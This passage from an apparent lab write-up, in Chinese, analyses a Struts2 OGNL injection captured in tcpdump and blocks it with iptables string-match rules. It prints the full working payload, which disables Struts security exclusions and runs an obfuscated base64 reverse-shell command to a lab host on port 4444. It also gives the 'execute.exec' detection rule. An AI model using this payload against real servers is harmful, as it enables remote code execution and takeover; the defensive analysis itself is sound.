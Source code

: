 从我们 `tcpdump` 中抓取的包中，也可以看到相应的关键 `payload`：

![](.assets_img/README/tcpdump_struct2_payload.png)

![](.assets_img/README/tcpdump_struct2_payload2.png)

```
%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec({"bash -c {echo,YmFzaCAtYyAnMDwmMzMtO2V4ZWMgMzM8Pi9kZXYvdGNwLzE5Mi4xNjguNTYuMTYyLzQ0NDQ7c2ggPCYzMyA+JjMzIDI+JjMzJw==}|{base64,-d}|bash"}))}
```

### 10.2 热补丁

上面的 `payload` 中，要实现 `任意代码执行` 最关键同时同时也是最不可避免的部分如下：

```
(#execute.exec({"bash -c {echo,YmFzaCAtYyAnMDwmMzMtO2V4ZWMgMzM8Pi9kZXYvdGNwLzE5Mi4xNjguNTYuMTYyLzQ0NDQ7c2ggPCYzMyA+JjMzIDI+JjMzJw==}|{base64,-d}|bash"}))
```

`execute.exec` 是非常明显的 `命令执行` 恶意代码

最开始想使用类似于 `WAF` 的 `反向代理` 进行 `payload` 的检测。但是由于当前是使用 `HTTP` 协议进行 **明文通信**，故这里直接使用 `iptables` 进行 `恶意负载` 的检测与拦截

```bash
echo '未添加任何 iptables 规则前'
iptables -D DOCKER-USER -p tcp -m string --string 'execute.exec' --algo bm  -j DROP


echo '添加 iptables 规则后'
iptables -I DOCKER-USER -p tcp -m string --string 'execute.exec' --algo bm  -j DROP  # DROP 含有 'execute.exec' 的 TCP 包
```

[![asciicast](https://asciinema.org/a/667503.svg)](https://asciinema.org/a/667503)

### 10.3 Debug

在写 iptables 规则时，~~想当然地~~ 认为应该写在 `Filter` 表的 `INPUT` 链上：

```bash
iptables -I INPUT -p tcp -m string --string 'execute.exec' --algo bm  -j DROP
```
